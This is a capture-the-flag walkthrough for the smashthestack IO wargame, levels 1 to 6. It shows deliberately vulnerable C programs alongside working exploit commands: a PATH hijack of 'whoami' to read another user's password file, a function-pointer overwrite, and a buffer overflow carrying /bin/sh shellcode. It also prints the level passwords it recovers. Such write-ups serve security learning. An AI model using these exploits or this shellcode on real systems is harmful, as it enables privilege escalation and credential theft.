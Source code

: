 # [smashthestack](http://smashthestack.org/)

## [IO](http://io.smashthestack.org:84/)

### level-1

        # ssh level1@io.smashthestack.org
        password: level1
        
        # cd /levels/
        # gdb level01
        (gdb) disassemble main
        
        Dump of assembler code for function main:
        0x08048080 <+0>:	push   $0x8049128
        0x08048085 <+5>:	call   0x804810f <puts>
        0x0804808a <+10>:	call   0x804809f <fscanf>
        0x0804808f <+15>:	cmp    $0x10f,%eax
        0x08048094 <+20>:	je     0x80480dc <YouWin>
        0x0804809a <+26>:	call   0x8048103 <exit>
        End of assembler dump.
        
        # ./level01
        Enter the 3 digit passcode to enter: 271
        Congrats you found it, now read the password for level2 from /home/level2/.pass
        
### level-2

        # ssh level2@io.smashthestack.org
        password: 3ywr07ZFw5IsdKzU

#### level02
        
        # cat /levels/level02.c
        
        #include <stdio.h>
        #include <stdlib.h>
        #include <signal.h>
        #include <setjmp.h>

        void catcher(int a)
        {
            setresuid(geteuid(),geteuid(),geteuid());
            printf("WIN!\n");
            system("/bin/sh");
            exit(0);
        }

        int main(int argc, char **argv)
        {
            puts("source code is available in level02.c\n");

            if (argc != 3 || !atoi(argv[2]))
                return 1;
            signal(SIGFPE, catcher);
            return abs(atoi(argv[1])) / atoi(argv[2]);
        }

        # /levels/level02 -2147483648 -1
        WIN!

#### level02_alt

        # cat /levels/level02.c

        #include <stdio.h>
        #include <stdlib.h>
        #include <unistd.h>

        #define answer 3.141593

        void main(int argc, char **argv) {
            float a = (argc - 2)?: strtod(argv[1], 0);
            
            printf("You provided the number %f which is too ", a);
            if(a < answer)
                puts("low");
            else if(a > answer)
                puts("high");
            else
                execl("/bin/sh", "sh", "-p", NULL);
        }

        
        # /levels/level02_alt nan
        
### level-3

        # ssh level3@io.smashthestack.org
        password: IFd92yzOnSMv9tkX

        # cat /levels/level03.c
        
        #include <stdio.h>
        #include <string.h>

        void good()
        {
            puts("Win.");
            execl("/bin/sh", "sh", NULL);
        }
        void bad()
        {
            printf("I'm so sorry, you're at %p and you want to be at %p\n", bad, good);
        }

        int main(int argc, char **argv, char **envp)
        {
            void (*functionpointer)(void) = bad;
            char buffer[50];

            if(argc != 2 || strlen(argv[1]) < 4)
                return 0;

            memcpy(buffer, argv[1], strlen(argv[1]));
            memset(buffer, 0, strlen(argv[1]) - 4);

            printf("This is exciting we're going to %p\n", functionpointer);
            functionpointer();

            return 0;
        }
        
        # /levels/level03 something
        
        This is exciting we're going to 0x80484a4
        I'm so sorry, you're at 0x80484a4 and you want to be at 0x8048474
        
        # /levels/level03 `echo -e "123451234512345123451234512345123451234512345123451234512345123451234512345=\x74"`
        This is exciting we're going to 0x8048474
        Win.

### level-4

        # ssh level4@io.smashthestack.org
        password: nSwmULj2LpDnRGU2

#### level04

        # cat /levels/level04.c
        
        #include <stdlib.h>
        #include <stdio.h>

        int main() {
            char username[1024];
            FILE* f = popen("whoami","r");
            fgets(username, sizeof(username), f);
            printf("Welcome %s", username);

            return 0;
        }
        
        # /levels/level04
        Welcome level5
        
        # mkdir /tmp/ving_dir
        # echo cat /home/level5/.pass >> /tmp/ving_dir/whoami
        # chmod 777 /tmp/ving_dir/whoami
        # ls -l /tmp/ving_dir
        -rwxrwxrwx 1 level4 level4 23 Nov 24 10:44 whoami
        
        # PATH="/tmp/ving_dir:$PATH"
        # echo $PATH
        /tmp/ving_dir:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
        
        # /levels/level04
        Welcome LOoCy5PbKi63qXTh
        
#### level04_alt

        # cat /levels/level04_alt.c

        #include <stdlib.h>
        int main(){
            setresuid(geteuid(), geteuid(), geteuid());
            system("/usr/bin/id");
        }
        
### level-5

        # ssh level5@io.smashthestack.org
        password: LOoCy5PbKi63qXTh
        
#### level05

        # cat /levels/level05.c
        
        #include <stdio.h>
        #include <string.h>

        int main(int argc, char **argv) {
            char buf[128];
            if(argc < 2) return 1;
            strcpy(buf, argv[1]);
            printf("%s\n", buf);
            return 0;
        }
        
        # /levels/level05 `python -c 'print "\x90"*88+"\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80"+"\x90"*26+"\xb0\xfb\xff\xbf"'`
        
        # cat /home/level6/.pass
        rXCikld0ex3EQsnI

#### level05_alt

### level-6

        # ssh level6@io.smashthestack.org
        password: rXCikld0ex3EQsnI
        
#### level06

        # cat /levels/level06.c
        
#### level06_alt